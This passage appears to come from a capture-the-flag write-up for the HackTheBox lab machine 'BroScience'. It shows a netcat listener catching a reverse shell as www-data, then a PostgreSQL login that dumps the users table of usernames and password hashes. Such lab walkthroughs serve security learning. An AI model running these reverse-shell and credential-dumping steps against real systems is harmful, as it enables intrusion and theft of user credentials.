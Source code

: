Finally, I launched a netcat listener and navigated to `https://broscience.htb/test.php`. 

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.195] 41862
bash: cannot set terminal process group (834): Inappropriate ioctl for device
bash: no job control in this shell

www-data@broscience:/var/www/html$ ls
ls
activate.php
comment.php
exercise.php
images
includes
index.php
login.php
logout.php
register.php
styles
swap_theme.php
test2.php
update_user.php
user.php
```

## Getting A User

I was on the server, but as `www-data` which can't do much. I had some database credentials so I use them to see what the db contained.

```bash
www-data@broscience:/var/www/html$ psql -U dbuser -W broscience -p5432 -hlocalhost
Password:
psql (13.9 (Debian 13.9-0+deb11u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

broscience=> Select username, password From users;
```

The `users` table contained usernames and hashed passwords.

```
   username    |             password
---------------+----------------------------------
 administrator | 15657792073e8a843d4f91fc403454e1
 bill          | 13edad4932da9dbb57d9cd15b66ed104
 michael       | bd3dad50e2d578ecba87d5fa15ca5f85
 john          | a7eed23a7be6fe0d765197b1027453fe
 dmytro        | 5d15340bded5b9395d5d14b9c21bc82b
```
